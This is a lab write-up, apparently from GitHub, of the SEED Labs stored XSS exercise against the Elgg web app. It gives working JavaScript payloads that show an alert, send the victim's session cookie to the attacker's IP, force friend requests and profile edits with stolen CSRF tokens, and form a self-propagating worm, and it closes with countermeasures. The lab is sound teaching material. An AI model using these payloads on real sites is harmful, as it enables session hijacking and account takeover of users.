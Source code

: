 # XSS (Cross-site-scripting) attack
SEED Labs Persistent (Stored) XSS attack

**Running:** SEEDUbuntu 16.04 VM
Using Elgg web app, a version with security countermeasures for XSS attacks disabled

## Environment description
- Inside the Elgg web server, we have created the following user accounts:

![user_accounts](https://github.com/peterkarydis/xss-attack/blob/main/images/pic1.png?raw=true)

- Samy is the account the attacker uses

## Activity #1
- We want to display a popup window with a simple message in Alice's browser
- We login as Samy, go to our "Edit profile" page, and inside "Brief description" field we type:
```
<script>alert(‘XSS Attack’);</script>
```
- and hit Save.
![samy_simple_window_script](https://github.com/peterkarydis/xss-attack/blob/main/images/pic2.png?raw=true)
- Then we login as Alice and visit Samys' profile.
![samys_profile_window](https://github.com/peterkarydis/xss-attack/blob/main/images/pic3.png?raw=true)

## Activity #2
- We want to display a popup window with information about Alices' session cookie in her browser
- We login as Samy, go to our "Edit profile" page, and inside "Brief description" field we type:
```
<script>alert(document.cookie);</script>
```
- and hit Save.
![samy_session_window_script](https://github.com/peterkarydis/xss-attack/blob/main/images/pic4.png?raw=true)
- Then we login as Alice and visit Samys' profile.
![samys_profile_window2](https://github.com/peterkarydis/xss-attack/blob/main/images/pic5.png?raw=true)

## Activity #3
- This time Samy wants the Javascript code to send the intercepted cookie back to him. To do this the malicious Javascript code has to send an HTTP GET request back to Samy, with the cookie attached to it.
- We add into the websites' DOM tree an img tag, with its src attribute to point to Samys' IP.
- When the victim's browser meets this tag, it will try to load the image from the URL address that is set in the src field.
- This will lead to the creation of a GET HTTP Request towards Samys' IP.
- Inside his "Brief description" field Samy types:
```
<script>
document.write('<img src=http://192.168.230.135:5555?c=' + escape(document.cookie) + ' >');
</script>
```
![samys_profile_cookie](https://github.com/peterkarydis/xss-attack/blob/main/images/pic6.png?raw=true)
- Then Samy sets up a TCP server that listens to the same port so that he receives the session cookie.
- Alice visits Samys' profile (does not know she was attacked)
- Samy receives her cookie:
![alice's_cookie_received](https://github.com/peterkarydis/xss-attack/blob/main/images/pic7.png?raw=true)

## Activity #4
- Samy wants to force anyone visiting his profile to automatically send him a friend request.
- Samy captures the HTTP Request sent when someone sends him a friend request. To do that, he creates a fake account named Boby to send a friend request to himself.
![boby_friend_request](https://github.com/peterkarydis/xss-attack/blob/main/images/pic8.png?raw=true)
- This way Samy learns that his UserID (GUID) is 47.
- Samy then creates a friend request script and adds it to his "About me" field. 
```
<script type="text/javascript">

window.onload=function() {

var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
var token="&__elgg_token="+elgg.security.token.__elgg_token;

//Construct the HTTP request to add Samy as a friend.

var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

Ajax=new XMLHttpRequest();
Ajax.open("GET",sendurl,true);
Ajax.setRequestHeader("Host","www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
Ajax.send();
}
</script>
```
![friend_request_about_me](https://github.com/peterkarydis/xss-attack/blob/main/images/pic9.png?raw=true)
- Now whoever visits Samys' profile automatically sends him a friend request.

## Activity #5
- Samy wants to force anyone visiting his profile to add to his "About me" field the string "Samy is my hero". To do that he captures the HTTP Request created when one updates a field in his profile.
![edit_about_me_request](https://github.com/peterkarydis/xss-attack/blob/main/images/pic10.png?raw=true)
- With that information he writes the malicious script and adds it into his "About me" field.
```
<script type="text/javascript">

window.onload=function() {

// Get the name, guid, Timestamp and Security Token
var name = "&name=" + elgg.session.user.name;
var guid = "&guid=" + elgg.session.user.guid;
var ts = "&__elgg_ts = "+elgg.security.token.__elgg_ts;
var token = "&__elgg_token="+elgg.security.token.__elgg_token;

// Construct the url and the content of the POST request
var desc="&description=Samy is my hero";
var content=name + token + ts + guid + desc;
var sendurl="http://www.xsslabelgg.com/action/profile/edit";
var samyGuid=47;

if(elgg.session.user.guid!=samyGuid) {
// Create and send Ajax request to modify profile
var Ajax=null; 
Ajax=new XMLHttpRequest();
Ajax.open("POST", sendurl, true);
Ajax.setRequestHeader("Host", "www.xsslabelgg.com");
Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
Ajax.send(content);
}
}
</script>
```
![add_script_to_edit_aboutme](https://github.com/peterkarydis/xss-attack/blob/main/images/pic11.png?raw=true)
- Now anyone visiting Samys' profile automatically gets his/her profiles' "About me" field updated like so:
![alice_new_aboutme](https://github.com/peterkarydis/xss-attack/blob/main/images/pic12.png?raw=true)

## Activity #6: Self-Propagating XSS-worm

- Samy alters the javascript code from activity #5 so that it can self-propagate.
- The new javascript code can copy itself straight from the DOM API of the website.
```
<script type="text/javascript" id="worm">
window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";                                 

  // Put all the pieces together, and apply the URI encoding
  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 

  // Set the content of the description field and access level.
  var desc = "&description=Samy is my hero" + wormCode;
  desc    += "&accesslevel[description]=2";                       

  // Get the name, guid, Timestamp and Security Token
  var name = "&name=" + elgg.session.user.name;
  var guid = "&guid=" + elgg.session.user.guid;
  var ts    = "&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token = "&__elgg_token="+elgg.security.token.__elgg_token;

  // Construct the url and the content of the POST request
  var sendurl="http://www.xsslabelgg.com/action/profile/edit";
  var content = token + ts + name + desc + guid;

  if (elgg.session.user.guid != 47){
    //Create and send Ajax request to modify profile
    var Ajax=null;
    Ajax = new XMLHttpRequest();
    Ajax.open("POST", sendurl,true);
    Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
    Ajax.send(content);
  }
}
```
- Now when Alice visits Samys' profile, her "About Me" profile description changes to "Samy is my hero". And she herself runs the worm, so anyone visiting her profile will have his/her profile "About Me" description changed to "Samy is my hero" and so on.

## Activity #7 Countermeasures
1. Activate the security plugin named HTMLawed. It provides security filtering by verifying user input and removing any tags included.
![HTMLawed_activate](https://github.com/peterkarydis/xss-attack/blob/main/images/pic13.png?raw=true)
2. Inside the web apps' PHP code there should be an htmlspecialchars() function that is used to encode the special characters of the user input. For example the character **<** 
is encoded as **&lt** while the character **>** as **&gt**.